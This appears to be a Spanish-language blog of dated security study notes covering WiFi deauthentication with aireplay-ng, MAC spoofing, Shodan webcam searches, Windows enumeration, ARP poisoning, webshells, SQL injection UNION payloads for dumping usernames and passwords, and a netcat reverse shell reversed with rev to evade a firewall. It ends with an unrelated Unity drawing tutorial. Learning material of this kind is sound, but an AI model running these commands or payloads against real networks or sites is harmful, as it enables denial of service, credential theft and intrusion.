Interfaces de Red
Las interfaces de red permiten a cualquier servidor que ejecute el servicio enrutamiento y acceso remoto comunicarse con otros equipos a través de redes privadas o públicas.
Tarjetas de Red
La tarjeta de red, también conocida como placa de red, adaptador de red, adaptador LAN, Interfaz de red física.
Direccion IP Privada /Publica
IP Privada
Una dirección IP Privada se utiliza para identificar equipos o dispositivos dentro de una red doméstica o privada.
Las direcciones IP Privadas sí pueden repetirse pero en redes distintas, en cuyo caso no habrá conflictos debido a que las redes se encuentran separadas.
IP Publica
La dirección IP Pública es aquella que nos ofrece el proveedor de acceso a Internet y se asigna a cualquier equipo o dispositivo conectado de forma directa a Internet.
Las direcciones IP Públicas son siempre únicas.
Direccion MAC
Es un identificador de 48 bits (6 bloques de dos caracteres hexadecimales [8 bits]) que corresponde de forma única a una tarjeta o dispositivo de red.
En nuestro caso la direccion de la MAC sera cambiada.
Redes WPA/WPA2
Nota la tarjeta que se pondra de ejemplo es la interna de una laptop y es llamada en mi caso wlan0.
Configurando en Modo Monitor
1.Listar las interfaz de red existentes.
ifconfig
Kill procesos conflictivos
Killall dhclient wpa_suplicant 2>/dev/null
airmon-ng check kill
2.Habiendo matado los procesos seleccionar el nombre y configura en modo monitor con
airmon-ng start <wlan0 >

ifconfig
3.Observar que la interfaz seleccionada a desaparecido o ha cambiado.

4.Listamos la informa sobre la configuración de red inalámbrica iwconfig y observarmos que aparece nuestra interfaz seleccionada en modo monitor.

5.Configurado en modo monitor volvemos a levantar la interfaz ifconfig <wlan0> up
Deshabilitar modo monitor
Detenemos el modo monitor
airmon-ng stop <wlan0>
y verificamos.
ifconfig
Conectarse a la red de Internet
Es aconsejable reiniciar el servicio y reiniciar el computador.
/etc/init.d/networking restart
Cambiar nuestra direccion MAC
Macchanger
1.Revisamos cual es nuetra direccion MAC.
macchanger -s <wlan0> #-s=show
Los primeros tres bloques son importantes identifica la tecnologia del dispositivo.

2.Listamos OUI's.
macchanger -l | grep "P.."

3.Realizamos los cambios.
macchanger --mac=<oui selecionada>:da:af:91 <wlan0>

Nota : UAA puede ser aleatoria pero en Hexadecimal
Para cambiar la direccion de mac la interfaz en modo monitor debe estar detenida posteriormente la levantamos.

Airodump-ng
1.Tratamos de capturar teniendo nuestra interfaz levantada en modo monitor.
airodump-ng <wlan0>

Podemos Filtra puntos de acceso y clientes
BSSID direccion MAC del AP
PWR nivel de señal,-1 no hay señal
Beacons nro de packetes de anucios
#Data nro packetes capturados
#/s nro de paquetes de datos capturados por segundo calculando la media de los últimos 10 segundos.
CH Número de canal (obtenido de los “paquetes anuncio” o beacons).
CIPHER Tipos de cifrados
AUTH protocolo de autenticación usado.
ESSID Nombre de la red inalambrica
Modos de Filtro
Escogemos filtrar por el nombre de la red "ESSID" tambien llamada "SSID".
airodump-ng -c 1 --bssid F8:E8:11:1F:D3:68 <wlan0>
Guardando las redes.
Se adiciona el -w para capturar los datos es importante para un Handshake.

airodump-ng -c 10 -w captura --bssid <::::::> wlan0
Aireplay-ng
DesautenticacionSe trata de denegar los servicios (DoS),desautenticamos los packetes que debian ser injectados en la red mediante la prevencion de la coneccion del cliente al AP.
aireplay-ng -0 10 -e <E..L> -c < > wlan0
aireplay-ng -0 10 -e bssid -c FF:FF:FF:FF:FF:FF wlan0
Patrones
son sucesos recurrentes.
Paquetes?
Se tiene un proceso de Envio,esta pasa por capas que van encapsulando ,se adicionan a la cabecera de protocolo del Paquete.

Wireshark
Es una herramienta de analisis sobre paquetes.
¿Que es un IDS?
Son llamados los sistemas de Deteccion de Intruosos son herramientas,
estas aumentan la seguridad en las redes,estos por si solos no pueden detener a los intrusos ,necesitan tener una configuracion conjunta con el Firewall,para entender es una ids debemos saber que es un log.
¿Que es un log?
Es un registro que deja un sistema informativo,ejemplo: accesos de usuarios y borrados,puedes visalizarlos en /var/log en hay se encuentran todos los logs de Sistema .
Tipos de IDS
HIDS(Host IDS)
Deteccion basada en host de un maquina.
NIDS(Network IDS)
Monitoreo de la red
IPS
Sistema de Prevencion de Intrusion,ejerce el control de acceso a una red.
21/06/21
Intro 🎤
Es un Search Engine como google o big pero puede brindarnos informacion
de puertos ,controladores ,lugares publicos los cuales tal vez se descubran vunerabilidades en ellas.
Shodan brinda informacion de de todo aparato conectado a un red como una pc hasta un controlador de una empresa.
Aplicacion 🔍
Seguridad de redes
Es utilizado para investigaciones de Seguridad.
Investigacion de Mercado
El proposito de Shodan al comienzo fue del ser un motor de Market Research por que este es muy distinto a los demas como google ,¿Está encontrando computadoras que ejecutan una determinada pieza de software (como Apache)? ¿O si desea saber qué versión de Microsoft IIS es la más popular? ¿O quiere ver cuántos servidores FTP anónimos hay? ¿Quizás surgió una nueva vulnerabilidad y desea ver cuántos hosts podría infectar? Los motores de búsqueda web tradicionales no le permiten responder esas preguntas ".
Internet de las Cosas
Aparte de la webcam existen otros aparatos que deberian tener normas de regulacion para la seguridad de los propietarios. Mirando a niños que duermen
Inspeccion de Ransomware
Shodan tambien esta del lado el bien. Shodan tumba una red de `bots´
Ciber Risk
Exponiendo a sistemas de Industrias
TOP en Busquedas 🆒
- Webcam
- Cams
- Netcam
- Defaultpassword
- Ufanet
*:80;*:8080;
- Dreambox
- Live sex cam
- Webcamxp
- Webcam no pass
- MayGion IP cameras (admin:admin)
Windows Privilege Escalation Fundamentals😀
23/06/21
Intro
Windows y seguridad, su parche de tiempo el objetivo es getsystem.
En la linea de comandos no existe gran diferencia entre versiones
Informacion de entrada [Information Gatering]
¿Que tipo de maquina es?
C:\WINDOWS\system32>systeminfo
C:\WINDOWS\system32>systeminfo | findstr /B /C:"OS Name" /C:"OS Version"#nombre del so y la Version
//no appears in windows 10
C:\WINDOWS\system32>echo %username% # el Usuario
user1
C:\WINDOWS\system32>Get-WmiObject -query 'select * from wim32_quickfixengineering | foreach {$_.hotfixid}' #Lista todos los patches
mas description de los patches
C:\WINDOWS\system32>Get-Hotfix -description "Security update" # Lista de las actualizaciones
¿Cuales son las conecciones?
C:\WINDOWS\system32>net users #lista todos los usuarios
Cuentas de usuario de \\DESKTOP-opmk
-------------------------------------------------------------------------------
Administrador DefaultAccount Invitado
user1 blabla
C:\WINDOWS\system32>net user user1 #especifico Usuario
Networking y Interfaces
C:\WINDOWS\system32> ipconfig /all
C:\WINDOWS\system32> route print
ARP (Address Resolution Protocol)
C:\WINDOWS\system32> arp -A
Activas Conecciones usamos nestat
netstat -ano
netsh no es un comando universal para todas las versiones
>C:\WINDOWS\system32> netsh firewall show config o >C:\WINDOWS\system32> netsh advfirewall firewall
Schedule Tasks ,runnig process, started services
>C:\WINDOWS\system32> schtasks /query /fo LIST /v
Corriendo procesos para empezar servicios
C:\WINDOWS\system32>tasklist /SVC
¿Que privilegios tiene?
En Windows 10 ,la cuenta de superadministrador en Windows es igual que la cuenta de root de Linux,es controlada por la UAC (Prompt) se tiene el control total sobre el sistema.
net user administrator /active:yes
WMIC Remotely Read System Information with WMI☠️
WMIC lee la informa del sistema , es posible ejecutar cualquier tipo de tareas como obtener información, iniciar, detener, pausar procesos y servicios así como cambiar cualquier tipo de configuración en el equipo al que se tenga acceso como administradorprocesos remotamente tambien locales.
Comandos
#Información sobre el BIOS de la computadora
C:\WINDOWS\system32>WMIC /Output:STDOUT BIOS get /all /format:LIST
#Obtener con WMIC información sobre errores del sistema operativo
C:\WINDOWS\system32>WMIC /Output:STDOUT RECOVEROS get /all /format:LIST
Estos son algunos de los basicos conceptos que se deben conocer que recopile y espero que sea de ayuda.🙈
25/06/21
Perl (PCRE)
Limitando la busqueda
$ locate john | grep 'john$'
Lista todos los folders /john o /dmg2john
Matching caracteres
locate html | grep '/var/.../html'
"/var", luego tenga dos caracteres y termine con la cadena "/html"
from UPPER to lower
$ cat output.txt
HOLA PARIS
$ tr '[:upper:]' '[:lower:]' < input.txt > output.txt
$ cat output.txt
hola paris
Remover Espacios
$ sed "${x// /}"
Listar los archivos que comienzan con
ls -d M*
Estando en el directorio /c/Program Files se listan: MSBuild/ 'Microsoft SQL Server'/ 'Mozilla Firefox'/
Quitar comentario
tenemos el texto: text.txt
# c1
#c2
echo('hi')\
$ cat text.txt | sed 's/^#.*//g' | sed 's/.*#.*//g'| sed '/^\s*$/d'
echo('hi')\
Listar archivos con inicial caracter especial
ls -al | awk '{ print $NF}' | grep -oP '^\.[0-9a-z]'

26/06/21
Privilegios
Un administrador del sistema asigna privilegios a cuentas de usuarios y grupos, mientras que el sistema otorga o deniega el acceso a un objeto asegurable según los derechos de acceso otorgados en las ACE en la DACL del objeto.
Debemos darnos cuenta que hay una diferencia entre Privilegios y Derechos de Acceso.
MICROSOFT:Privileges
Derechos de Acceso
Cada tipo de [ securable object ]objeto asegurable tiene un conjunto de derechos de acceso que corresponden a operaciones específicas para ese tipo de objeto. Además de estos derechos de acceso específicos de objetos, existe un conjunto de derechos de acceso estándar que corresponden a operaciones comunes a la mayoría de los tipos de objetos asegurables.
MICROSOFT: Standard Access Rights
Access Tokens
Cada proceso o hilo creado por un usuario heredado tiene una copia de su token se pueden efectuar para privilegios de otros procesos.
Restricted Access Tokens
Es un token de Acceso principal o de suplantacion que ha sido modificado por la funcion CreateRestrictedToken.
ProcessExplorer
Comunes Privilegios Accedidos
Los comunes privilegios pueden ser par un usuario o para un grupo.
SeBackupPrivilege
Commonly abused privileges
SeDebugPrivilege los malware abusan de este privilegio para actuar con la inyection de codigo dentro de un confiado processo , porque este permite la creacion de nuevos remotos hilos en un processo fijado como Objetivo.
Activacion Auditoria de Privilegios
Todo comienza con un lo logs in Windows10 and Server 2016,primero nos enfocamos en (GPO) Group Policy Object ,desactiva los backups y restore privilegios.
Identicar privilegos usados
Event Code 4672,el usuario es permitido para SeDebugPrivileges ,
Event Code 4703,Autorization policy Change.
3/07/21
Integridad de la Evidencia
Se comprende como evidencia digital a un cnojunto de datos en en conjunto Binario con sus referencias(metadatos).
1. No cambiar de Estado
Dispositivos encendidos - Preservar el funcionamiento de la RAM
Dispostivos apagados - Prevenir la Sobrescritura
Conocimiento de las Herramientas
Herramientas de Cambios de fecha ,se sabe que lo mas importante es la line de tiempo,basada en cambios he insidentes realizados .
Etiquetar && Documentar
no es un oficio sino una actitud ,visibilidad de Procesos , coomo demostrar que mostrar,piezay proceso de Desarrollo y nos obliga a una profunda investigacion.
Volatilidad
Hoy en dia los dispositivos moviles que realizan complejas tareas de almacenamiento.
esto genera que posea menos control sobre variables influyentes.
La Memoria RAM posee informacion valiosa.
El RCF 3227 establece el ordenen base a la volatilidad de los datos.
Read Only
Analizando en modo solo Lectura.
12/07/21
¿Que es Kerberos?
Kerberos es un (Protocolo de autenticacion en la Red de Computadoras)computer network authentication protocol usada por microsoft Winodws perp existen implementaciones para otros SO.
Usa una simetrica llave Criptografica,require 3 entidades para la autenticacion.
Kerberos mejoro la seguridad en la Rede y convirtio mas complicada la imfiltracion en la Red.
¿Kerberos && NTLM diferencias?
La verificación de terceros y la capacidad de Cifrado de Kerberos .
¿Como se authentica con Kerberos?
1.Al KDC se solicita un Ticket de TGT.
2.KDC Verificay devuelve un Ticket TGT y la clave de Sesion.
3.TGT se cifra mediante TGS
4.El cliente alamAcena el TGT con un Periodo de expiracion.
Client
5.Si se si acceder a un Recurso SPN se envia el TGT a un TGS.
6.KDC verifica el TGT para dar acceso.
7.TGS emite un clave de sesion al usuario.
8.El cliente posee la clave y demuesra que tiene acceso al Servicio.
¿Es vunerable Kerberos?
-Malware
-Contraseñas debiles.
Tools para Ataque a Kerberos
Rubeus,Kerbrute.

13/07/21
¿ARP?
Esta apoyar a las capa de Red utilizada desde los comienzos del internet,permite a los dispositivos conectados preguntar que dispositivo esta aiignado dado una ip addres
¿Ques es ARP Poisoning?
Los mensajes no son autenticados,entonces estos pueden ser cambiados ,Por ejemplo Si una computadora C1 pregunta la Mac Address de la Computadora C2 tambien existe un computadora C3 entonces la computadora C3 puede responder a la computadora C1.y la respuesta es aceptada.
La computadora c3 puede envenenar"poison" la ARP Cache del host de una red local.
Steps
1.Selecciona la victima
Preferentemente se selecciona un Router por que puedes quebrar el trafico de un entera subnet.
2.Prepara y hace uso de Herramientas para el Ataque
Esperan a una Peticion o pueden hacer un broadcasting de los mensajes
3.Realiza cambios con el trafico dirigido
pude alterar la red o tambien puede causar un "Agujero Negro"para que nunca lleguen los mensajes a su destino.
¿Que es Scapy?
Scapy es una herramienta de manipulacion de Paquetes.Para Linux ,Windows y otro OS.
ARP Poisoning en Python
15/07/21
¿Que son las Politicas de Seguridad?
permisos que se ponen a un sistema.
por ejemplo la politica de uso de una computadora es ningun usuario pueda entra antes iniciar sesion.
despues se le brindan metadatos correspondientes para que pueda ejecutar ciertas acciones.
prevenimos todo mal,con el continuo trabajo que nunca se termina realmente.
🐧SELinux
Es un sistema de Etiqueta de un ordenador o un conjunto de nodos de linux en la nube.
SElinux etiqueta todo lo pertenece al Sistema otorga 2 politicas que Gobiernan procesos de etiquetados y bjetos etiquetados.
🐋🐋Pod Kubernetes
Politicas de Seguridad
Son condiciones especificas que de cumplir un Pod para ser programado/ aceptado.
Contextos de Seguridad
Son condiciones espeficicas que debe cumplir un pod pero tambien se incluye un tiempo de ejecucion
🔥Firewall
Esta protege a la red y todos los que estan dentro de ella.Los Cortafuegos vienen integrados en algunos dispositivos.Las politicas se pueden constituir de 2 partes: negacion de servicios y las excepciones de entradas y salidas
Basicos Conceptos de Pentesting
23/07/21
Conoceremos mas sobre BindShells ,Reverse Shell y Encrypted el libro de ... me inspiro ha escribir este conceptos.
Bind Shells
Un atacante puede ganar una remota shell puesto que el objetivo tiene un listener ejecutandose.
Se tiene las desventajas de un interno host que el objetivo pueda cambiar de NAT/PAT ,el bloqueo respectivo de los Firewall,una solucion al bloqueo es usar el puerto 443.
Reverse Shell
El atancante en este caso tiene un listener corriendo , el objetivo es que se conectara.
Se usa los puertos de salida de Red comunes como(80,443) ,no presenta problemas en la traduccion de NAT/PAT
Shell Encriptadas
Este tipo de Shell nos ayuda a ocultar los comandos o processos que se realiza por un atacante o un objetivo(tarjet) .
Las nuevas versiones de SSL proveen de la encriptacion de la data transportada,algo importante tambien es que SSH provee la comunicacion encriptada.
Basicos Conceptos de Pentesting
31/07/21
Concepto
El reconocimiento es la parte mas inportante para generar buenos resultados a posteriori.
Si tuviera 9 horas para cortar un arbol,le dedicare 6 horas ha afilar la hacha.
Reconocimiento Pasivo
Cuando no tenemos interaccion directa con el cliente o Victima.
entonces debemos realizar busquedas externas, el internet ,redes sociales.
Reconocimiento Activo
Se tiene una interaccion directa y podemos realizar: Barridos de Ping ,Conexion a un puerto de un aplicativo,Mapeo de red.
Operadores de Google
Resolviendo Nombres
Se puede obtener la direccion IP ejecutando el comando nslookup tanto en Windows como Linux.
WhoIs
El servicio WHOIS es un sistema distribuido de consultas de información sobre recursos de Internet que permite obtener información sobre el propietario de un nombre de dominio o una dirección IP en Internet.
3/08/21
Es importante para parsear las salidas ,que usamos grep debemos usar el flag -E para usar especiales caracteres usamos un backslash '\'
uno de los usos para conseguir una ip.
como por ejemplo para busca una Ip:
ahora si nosotros remplazamos la expresion en bash usando grep -e esto deberiar validar las ip .
grep -o -e ..:
Mirar adentro
Para obtener palabras que tiene un patron externo podempos usar la -P. grep -oP ..
mire el comnado

Usar otra vuelta
Para esto usamos el el flag -E pero dentro de la expresion aumentamos \1 ,pero la expresion que quiere repetir debe ser un grupo eso significa (dentro de parentesis). ejemplo grep -E "([0-9]) is \1"
Para mas informacion dejo este articulo
4/08/21
Los webshells son scripts que tienen el objetivo de ganar acceso y persistencia en una web comprometida.Esto se puede obtener de diferentes formas tambien las web se pueden encontrar en diferentes lenguajes y no son prohibidos por eso exiten muchos projectos en github.
Persistencia en los Accesos Remotos
Scripts usualmente continen backdoors,para que no sea tan visible,la interaccion no debe ser tan notable,se pueden usar passwords como autenticadores,cookies ,especificas IP address,la ofuscación y el sigilo son la clave.
Escalacion de Privilegios
Es importante encontrar vunerabilidades locales para ser ROOT.
Pivoting
Se tiene el objetivo de conocer todo sobre el server y su red, teniendo in oculto acceso(persistente acceso) debemos realizar estudios
Zombie
Comand and Conttrol (C&C) server nos da el poder .
6/08/21
SQL Injection
Union Keyword usada para ataques,agrupando SELEECT queries.

¿Cuantas columnas son requeridas en una SQL Injeccion?
ORDER BY
Por ejemplo, suponiendo que el punto de inyección es una cadena entre comillas dentro de la cláusula WHERE de la consulta original,podriamos enviar:
' ORDER BY 1--
' ORDER BY 2--
UNION
El nro de nulls es el nro de columnas que intentamos adivinar.
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
El valor NULL es compatible con todos los valores.
Obtener columnas
Es importante determinar el tipo de data que se obtiene como ser string.
' UNION SELECT 'a',NULL--
' UNION SELECT NULL,'b'--
tambien podemos determinar esto de algun otra tabla pero si conocemos el Nombre.
' UNION SELECT username, password FROM users--
Concatenacion
Podemos recuperar varias columnas concatenando incluso adicionando simbolos para su comprension.
' UNION SELECT username || '-' || password FROM users--
7/08/21
Picus byPass Article
nc -lvp 1234#atacker Machine
nc 127.0.0.1 1234 -e /bin/bash # victim Machine
echo hello wordl | rev
Que es una WAF?
Web Application Firewall ,proteje de multiples ataques al servidor dirigidos al backend.
echo nc 127.0.0.1 1234 -e /bin/bash |rev
hsab/nib/ e- 4321 1.0.0.721 cn
Intentente
hsab/nib/ e- 4321 1.0.0.721 cn | rev
Para que esto funcione ejecuta $(command)
$(echo hsab/nib/ e- 4321 1.0.0.721 cn | rev )
Port Binding Shellcode
10/08/21
Objetivo
Aprendiendo unity , la creacion de cualquier objeto que quieras es lo que nos permite unity,esta ocasion cree un marcador.
bueno manos a la obra con la creacion .
Pasos:
1.Creamos un Objeto al hacer el primer click llamaremos Starting a la funcion.
2.Vamos iterando los puntos del mouse llamaremos Adding ha esta funcion.
3.Posicionamos las funnciones en el Update.
Starting
Todo inicia con un Input.GetKeyDown(KeyCode.Mouse0)
#Creamos el brush
#prefab contiene a LineRender
GameObject b=Instantiate(prefab);
#curent es un LineRender
curent=b.GetComponent>LineRenderer<();
#Fijamos la Posicion del Raycast de la camara
#cam es Camera.main
Vector2 pos=cam.ScreenToWordlPoint(Input.mouseposition);
curent.SetPosition(0,pos);
curent.SetPosition(1,pos);
Adding
Vamos Adicionando los puntos que se generan porInput.GetKey(KeyCode.Mouse0).
#Recibimos la posicion del click del mouse (PosMouse)
#adicionamos este al lineRender(curent)
curent.positionCount++;
#le descartamos el ultimo
int posactual=curent.positionCount-1;
#lo adicionamos al lineRender la posicion
curent.SetPosition(posactual,PosMouse);
Uniendo en la funcion Update
Agrupamos las funciones.
PseudoCodigo
Update(){
if Input.GetKeyDown(KeyCode.Mouse0)
Starting();
if Input.GetKey(KeyCode.Mouse0)
Vector2 MousePos=cam.ScreenToWordlPoint(Input.mousePosition);
if(MousePos!= last)
Adding(MousePos);
last=MousePos;
else curent=null
}
Thats everything .
